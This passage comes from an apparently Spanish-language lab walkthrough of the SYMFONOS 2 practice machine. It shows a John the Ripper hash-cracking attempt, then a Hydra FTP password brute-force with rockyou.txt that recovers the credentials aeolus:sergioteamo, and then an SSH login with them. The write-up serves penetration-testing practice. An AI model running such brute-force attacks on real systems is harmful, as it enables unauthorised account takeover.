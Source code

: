 ```
root@kali:~/SYMFONOS2# john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads

```

Importante: demoraba mucho el proceso asi que lo realicé con HYDRA.

```
root@kali:~/SYMFONOS2# hydra -t 10 -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.151
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-28 19:20:57
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344399 login tries (l:1/p:14344399), ~1434440 tries per task
[DATA] attacking ftp://10.10.10.151:21/
[21][ftp] host: 10.10.10.151   login: aeolus   password: sergioteamo
```

<img src="https://github.com/El-Palomo/SYMFONOS-2/blob/main/symfonos16.jpg" with=80% />


> Obtenemos las siguientes credenciales aeolus:sergioteamo. 

### 4.2. SSH FORDWADING

- Con las credenciales obtenidas nos conectamos por SSH.

```
root@kali:~/SYMFONOS2# ssh aeolus@10.10.10.151
aeolus@10.10.10.151's password: 
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Mar 28 13:14:23 2021 from ::1
aeolus@symfonos2:~$ whoami
aeolus
```
